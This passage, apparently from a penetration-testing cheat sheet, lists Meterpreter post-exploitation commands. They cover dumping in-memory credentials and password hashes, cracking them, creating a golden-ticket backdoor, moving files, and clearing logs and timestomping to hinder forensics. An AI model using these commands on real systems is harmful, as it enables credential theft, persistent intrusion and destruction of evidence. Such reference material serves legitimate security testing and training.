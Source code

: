 You can dump in-memory passwords

```bash
meterpreter > load kiwi
meterpreter > migrate some_process_nt_system_compatible
# retrieve all credentials
meterpreter > creds_all
# later, you may use it to create a "backdoor"
meterpreter > golden_ticket_create
```
</div><div>

Other commands

```bash
meterpreter > idletime # time the host was idle
meterpreter > ipconfig # network information
meterpreter > search -f pattern # search file by pattern
meterpreter > search -f pattern from* # ... inside given directories
meterpreter > download c:\\path # download to your machine
meterpreter > upload local_file c:\\path # upload
```

<details class="details-e"><summary>You can use many Linux commands</summary></details>

<details class="details-e mt-4"><summary>Load a file with commands</summary></details>
</div></div>

<hr class="sep-both">

## As an admin

<div class="row row-cols-md-2"><div>

Dump every username/password store by the system, they are hashed, you need to use `john` with `format=nt` to try bruteforce NTML hashes. It's worth noting that you can use the [hash to login using psexec](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/).

```bash
meterpreter > hashdump
# You may try to crack them using john within the msfconsole
msf6 exploit('module_used') > use auxiliary/analyze/crack_windows
msf6 exploit('module_used') > set CUSTOM_WORDLIST /usr/share/wordlists/rockyou.txt
msf6 exploit('module_used') > run
```

Clear logs

```bash
meterpreter > clearev
```

Mess with timestamp to complicate forensics/investigations

```bash
meterpreter > timestomp
```
</div><div>
